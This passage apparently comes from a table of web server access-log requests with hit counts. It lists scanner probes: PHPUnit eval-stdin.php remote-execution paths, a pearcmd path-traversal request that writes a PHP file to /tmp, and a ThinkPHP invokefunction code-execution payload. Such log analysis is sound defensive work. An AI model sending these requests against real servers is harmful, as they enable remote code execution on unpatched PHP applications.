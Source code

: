 |  55 |                    14 | GET /api/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                         |
|  56 |                    14 | GET /testing/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     |
|  57 |                    14 | GET /test/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                        |
|  58 |                    14 | GET /tests/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       |
|  59 |                    14 | GET /index.php?lang=../../../../../../../../usr/local/lib/php/pearcmd&+config-create+/&/<?echo(md5(\x22hi\x22));?>+/tmp/index1.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                  |
|  60 |                    14 | GET /public/index.php?s=/index/\x5Cthink\x5Capp/invokefunction&function=call_user_func_array&vars[0]=md5&vars[1][]=Hello HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                            |